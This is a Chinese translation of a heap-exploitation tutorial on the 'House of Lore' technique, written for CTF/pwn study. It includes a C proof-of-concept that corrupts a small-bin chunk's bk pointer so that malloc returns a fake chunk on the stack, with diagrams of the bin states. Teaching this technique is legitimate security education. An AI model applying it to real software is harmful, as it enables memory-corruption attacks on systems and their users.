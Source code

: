 ```yaml
---
title: Heap Exploitation系列翻译-14 House of Lore
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击基本上是对于small bin和large bin的伪造堆块攻击. 然而, 因为约在2007年(对`fd_nextsize`和`bk_nextsize`的引入)一个新增的对large bin的保护, 该项技术变得不再可行. 这里我们只考虑small bin的情形. 首先, 一个small chunk会被放置在small bin中, 它的`bk`指针会被覆写成指向一个伪造的small chunk. 要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`. 一次malloc调用将首先移除bin中理应存在的堆块从而致使我们的伪堆块到了bin的`尾部`. 再下一次malloc调用就会返回攻击者的堆块.

考虑以下示例代码(下载完整版本 [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_lore.c)))

```c
struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

struct small_chunk fake_chunk;                  // At address 0x7ffdeb37d050
struct small_chunk another_fake_chunk;
struct small_chunk *real_chunk;
unsigned long long *ptr, *victim;
int len;

len = sizeof(struct small_chunk);

// Grab two small chunk and free the first one
// This chunk will go into unsorted bin
ptr = malloc(len);                              // points to address 0x1a44010

// The second malloc can be of random size. We just want that
// the first chunk does not merge with the top chunk on freeing
malloc(len);                                    // points to address 0x1a440a0

// This chunk will end up in unsorted bin
free(ptr);

real_chunk = (struct small_chunk *)(ptr - 2);   // points to address 0x1a44000

// Grab another chunk with greater size so as to prevent getting back
// the same one. Also, the previous chunk will now go from unsorted to
// small bin
malloc(len + 0x10);                             // points to address 0x1a44130

// Make the real small chunk's bk pointer point to &fake_chunk
// This will insert the fake chunk in the smallbin
real_chunk->bk = &fake_chunk;
// and fake_chunk's fd point to the small chunk
// This will ensure that 'victim->bk->fd == victim' for the real chunk
fake_chunk.fd = real_chunk;

// We also need this 'victim->bk->fd == victim' test to pass for fake chunk
fake_chunk.bk = &another_fake_chunk;
another_fake_chunk.fd = &fake_chunk;

// Remove the real chunk by a standard call to malloc
malloc(len);                                    // points at address 0x1a44010

// Next malloc for that size will return the fake chunk
victim = malloc(len);                           // points at address 0x7ffdeb37d060
```

要注意到, 构造一个small chunk需要更多的步骤, 这是因为small chunks复杂的处理操作. 需要特别小心以确保每一个将要使用malloc返回的small chunk都满足`victim->bk->fd == victim`, 以通过安全检查"malloc(): smallbin double linked list corrupted". 此外也添加了额外的'malloc'调用以确保:

1. 第一个堆块在释放时会添加到unsorted bin而不是和top chunk合并
2. 第一个堆块会进入到small bin中因为它不满足大小为`len + 0x10`的malloc申请.

unsorted bin和small bin的状态如下所示

1. free(ptr).
  Unsorted bin:
  > head <-> ptr <-> tail

  Small bin:
  > head <-> tail
2. malloc(len + 0x10);
  Unsorted bin:
  > head <-> tail

  Small bin:
  > head <-> ptr <-> tail
3. Pointer manipulations1
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> ptr <-> tail
4. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> tail
5. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> tail         [ Fake chunk is returned ]

注意, 再次对small bin进行'malloc'调用会造成段错误

